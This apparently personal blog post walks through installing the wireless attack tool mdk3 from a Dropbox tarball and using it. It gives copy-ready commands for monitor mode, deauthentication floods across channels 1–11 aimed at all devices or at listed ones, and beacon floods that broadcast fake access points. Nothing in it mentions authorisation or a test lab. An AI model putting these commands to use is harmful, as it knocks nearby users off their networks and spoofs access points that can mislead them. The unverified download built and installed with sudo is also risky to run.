```yaml
---
layout: post
title: Installation and Basic Usage of MDK3
excerpt: A how-to for the installation and basic usage of mdk3
---
```

###Installation

Use the following commands

	wget https://www.dropbox.com/s/7oytphewrbcxkoz/mdk3-v6.tar.bz2
	tar -xjf mdk3-v6.tar.bz2
	mv mdk3-v6 mdk3
	cd mdk3
	sudo make && sudo make install
		
###Usage

####Set Wifi Adaptor into Monitor Mode

Use the following commands
	
	sudo iw phy phy0 interface add mon0 type monitor 
	sudo iw dev wlan0 del

####Deauthentication

Deauth all devices on every channel

	sudo mdk3 mon0 d -c 1,2,3,4,5,6,7,8,9,10,11
		
Deauth via whitelist (deauth all devices excluding those on the list)

	sudo mdk3 mon0 d -w /home/whitelist.txt -c 1,2,3,4,5,6,7,8,9,10,11

Deauth via blacklist (deauth only devices on the list)

	sudo mdk3 mon0 d -b /home/blacklist.txt -c 1,2,3,4,5,6,7,8,9,10,11

###Beacon Flood Mode

Broadcast a random list of fake access points

	sudo mdk3 mon0 b 
		
Broadcast a certain access point by name

	sudo mdk3 mon0 b -n example_network
		
Broadcast a list of access points from a file

	sudo mdk3 mon0 b -f /home/example_network_names.txt

For more information use `sudo mdk3 --fullhelp`		

###Set Wifi Card Back to Managed Mode

Use the following commands

	sudo iw phy phy0 interface add wlan0 type managed
	sudo sudo iw dev mon0 del

		